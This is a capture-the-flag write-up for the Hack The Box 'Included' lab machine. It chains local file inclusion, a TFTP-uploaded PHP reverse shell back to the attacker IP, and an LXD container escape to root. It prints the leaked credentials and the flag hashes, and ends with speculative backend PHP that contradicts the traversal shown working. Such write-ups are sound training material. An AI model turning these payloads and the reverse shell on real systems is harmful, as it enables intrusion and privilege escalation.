 ```yaml
---
title: HTB: Included – Full Write-Up
description: A step-by-step walkthrough of the Hack The Box "Included" machine, demonstrating LFI, TFTP shell upload, and LXD privilege escalation.
tags:
  - HackTheBox
  - LFI
  - TFTP
  - ReverseShell
  - LXD
  - PrivilegeEscalation
  - CTF
  - Linux
  - Pentesting
  - Cybersecurity
---
```


# HTB: Included – Full Write-Up

**Target IP:** 10.129.95.185  
**Attacker IP:** 10.10.14.5

---

## 🧠 Summary

This box required chaining multiple vulnerabilities:

- **Local File Inclusion (LFI)** to access sensitive server-side files.
- **TFTP** to upload a custom reverse shell.
- **LXD privilege escalation** via a custom Alpine container.

The flow: LFI → leaked credentials → TFTP reverse shell → user access → LXD escalation → root.

---

## 🔍 Enumeration

Initial scan:

```bash
nmap -sC -sV 10.129.95.185
```

Results:
- Port 80 open (Apache httpd 2.4.29)
- Title: “Site doesn't have a title”
- Web parameter observed: `?file=home.php`

---

## 📂 LFI Exploitation

Tested traversal:

```http
http://10.129.95.185/?file=../../../../etc/passwd
```

Confirmed LFI — `/etc/passwd` dumped successfully.

Tried to access `/etc/shadow` but returned a blank page → expected due to web server permissions.

### Base64 LFI:

```http
?file=php://filter/convert.base64-encode/resource=home.php
```

Successfully retrieved base64 source of `home.php` → decoded to static HTML.

Tested `.htaccess` as well:

```http
?file=php://filter/convert.base64-encode/resource=.htaccess
```

Revealed Apache rewrite rules and commented-out HTTP Basic Auth:
```
AuthUserFile /var/www/html/.htpasswd
```

Retrieved `.htpasswd`:

```http
?file=/var/www/html/.htpasswd
```

✅ Credentials found:
```
mike:Sheffield19
```

---

## 🌐 No Login Panel Found

Tested:
- `/login.php`
- `/admin.php`
- `/panel/`
- `/dashboard.php`

None responded with usable login.

---

## 🌐 UDP Enumeration

Initial UDP scan:

```bash
sudo nmap -sU 10.129.95.185
```

Too slow — optimized:

```bash
sudo nmap -sU -p 69 --min-rate=1000 -T4 10.129.95.185
```

Port 69/UDP (TFTP) confirmed open.

---

## 💣 Reverse Shell via TFTP

Created `shell.php` reverse shell script:

```php
<?php
$ip = '10.10.14.5';
$port = 4444;
exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
?>
```

Uploaded via TFTP:

```bash
tftp 10.129.95.185
put shell.php
```

Triggered:

```bash
curl 'http://10.129.95.185/?file=/var/lib/tftpboot/shell.php'
```

Got reverse shell as `www-data`.

Upgraded shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 👤 Lateral Movement to User `mike`

Used leaked password `Sheffield19` for local login:

```bash
su mike
```

Found `user.txt`:

```bash
cat /home/mike/user.txt
# a56ef91d70cfbf2cdb8f454c006935a1
```

---

## 🧱 Privilege Escalation via LXD

Check groups:

```bash
id
# mike is in group: lxd
```

Built Alpine container on attacker machine:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python3 -m http.server 8000
```

On target:

```bash
wget http://10.10.14.5:8000/alpine.tar.gz
lxc image import ./alpine.tar.gz --alias pwnimage
lxc init pwnimage pwncontainer -c security.privileged=true
lxc config device add pwncontainer host-root disk source=/ path=/mnt/root recursive=true
lxc start pwncontainer
lxc exec pwncontainer /bin/sh
chroot /mnt/root /bin/bash
```

🎉 Now root on host.

---

## 🏁 Got Root

```bash
cd /root
cat root.txt
# c693d9c7499d9f572ee375d4c14c7bcf
```

---

## 🧠 Notes on LFI Fallback Logic

Backend PHP might look like:

```php
$file = $_GET['file'];
$whitelist = ['home.php', 'about.php'];

if (in_array($file, $whitelist)) {
    include($file);
} else {
    include('home.php');
}
```

Or:

```php
$file = basename($_GET['file']);
include($file);
```

---

## 🎯 Lessons Learned

- LFI is still powerful when combined with `php://filter`.
- TFTP can be a viable upload path even when underused.
- LXD group membership is a goldmine if misconfigured.

---

*Rooted with persistence, misconfig chaining, and container escape tactics. 💥*

